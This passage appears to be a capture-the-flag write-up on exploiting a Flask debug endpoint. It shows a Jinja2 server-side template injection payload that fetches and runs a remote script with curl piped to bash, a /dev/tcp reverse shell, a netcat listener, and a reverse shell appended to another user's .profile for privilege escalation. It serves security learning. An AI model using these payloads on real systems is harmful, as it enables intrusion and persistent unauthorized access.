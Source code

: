 ```shell
<code>  
┌──(ayham㉿AM-Kali)-[~]  
└─$ debugging  
<span class="result">1337*1337</span>  
```
{% raw %}
I can see here the input from the debug statement is reflected on the page. Since this is running flask, it should be vulnerable to `Server Side Template Injection`. If I create a debug statement with the value `{{5*5}}` and the output is `25` that will confirm it.
{% endraw %}
Running these confirms it:
```shell
curl -I 'http://10.10.158.95:7777/debug?debug=\{\{5*5\}\}&password=redacted'

curl 'http://10.10.158.95:7777/debugresult' -H 'X-Forwarded-For: 127.0.0.1' -b 'session=.eJyrVkpJTSpNV7JSqq421TKtrVXSUSpILC4uzy9KAQomqSvExFQYGKARqkDSMDkmpgjEMwZxLEAsMxArVV2pFgCosxtS.aIfbKQ.Et9Z18UG7_91cUiqFP4CYNyjfUg'

┌──(ayham㉿AM-Kali)-[~]  
└─$ debugging  
<span class="result">25</span>
```
{% raw %}
Ok good. On `https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---remote-command-execution` I find a suitable payload to make a reverse shell. I had to add `+` in the whitespace: `{{+self.__init__.__globals__.__builtins__.__import__("os").popen("curl+10.13.66.123:8000/shell.sh+|+bash").read()+}}`. I need to use this because the server is checking for these special characters `'&;%` and not allowing them.
{% endraw %}
I create the reverse shell file `shell.sh` which contains `bash -i >& /dev/tcp/10.13.66.123/4444 0>&1`. In the directory with the file run `python3 -m http.server` Setup a listener with `nc -lvnp 4444` and run:
```shell
curl -I 'http://10.10.158.95:7777/debug?debug=\{\{+self.__init__.__globals__.__builtins__.__import__("os").popen("curl+10.13.66.123:8000/shell.sh+|+bash").read()+\}\}&password=redacted'

curl 'http://10.10.158.95:7777/debugresult' -H 'X-Forwarded-For: 127.0.0.1' -b 'session=.eJxdjuEKgyAUhV9FLowKhtMFMXoWQbRcCXcp3mKD1rtPt3_7c_g-OAfODqOz2wQ97Dsjh3eutV_8qnWGCYM1SF-2m8fVLz_xjxhS7tQKAiloeAzRLdmGLSGTgsuWdx2X17a_CSEuNDtETjN7M2toLovkzFg37DjgDNEQPUMa8wtbMaVeQvzFKacclErF2iK3Ql0hV8HxAQ5nQKc.aIfkgA.mJZ3S9zEhd007lf-sIhE9HzkrRI'
```
With that I catch the shell.

___

## Privilege Escalation

I find `flag1.txt` in `/home/ayham`. I see another user called `F30s`. I go into `F30s` home directory and see I have write permissions on `.profile`. This file is executed whenever a user logs in. 

I echo a reverse shell into this file and set a listener to wait and see if I can get a shell as `F30s`. 
```shell
echo 'bash -c "bash -i >& /dev/tcp/10.13.66.123/5555 0>&1"' >> .profile
```
After a minute I get a shell.
